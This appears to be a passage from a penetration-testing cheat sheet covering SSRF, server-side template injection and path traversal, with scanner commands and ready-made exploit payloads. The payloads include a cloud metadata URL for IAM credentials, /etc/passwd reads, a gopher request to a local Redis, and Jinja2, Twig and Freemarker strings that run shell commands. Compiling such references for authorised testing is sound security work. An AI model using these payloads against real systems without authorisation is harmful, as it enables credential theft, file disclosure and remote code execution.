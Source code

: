 ## **SSRF**
*Present when: Application makes requests to user-controlled URLs*

**Manual:** Replace URLs with internal IPs, cloud metadata endpoints
**Automated:**
```bash
ssrfmap -r request.txt -p url -m readfiles
nuclei -u target.com -t ssrf/
```

**Exploit:**
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://127.0.0.1:8080/admin
file:///etc/passwd
gopher://127.0.0.1:6379/_SET test 1
```

## **SSTI**
*Present when: User input embedded in template engines without sandboxing*
Also see: [Server-Side Template Injection (SSTI)](../../🌐%20Web%20Application/Injections/Server-Side%20Template%20Injection%20(SSTI).md)
**Manual:** Test with `{{7*7}}`, `${7*7}`, observe if calculation occurs
**Automated:**
```bash
tplmap -u "target.com/page?name=test"
nuclei -u target.com -t ssti/
```

**Exploit:**
```python
# Jinja2
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}

# Twig
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

# Freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

## **PATH TRAVERSAL/LFI**
*Present when: File paths constructed from user input without validation*
Also see: [Local File Inclusion (LFI)](../../🌐%20Web%20Application/File%20Inclusion/Local%20File%20Inclusion%20(LFI).md)
**Manual:** Replace filenames with `../../../etc/passwd`, observe responses
**Automated:**
```bash
dotdotpwn -m http -h target.com -x 8080 -f /etc/passwd
nuclei -u target.com -t lfi/
```
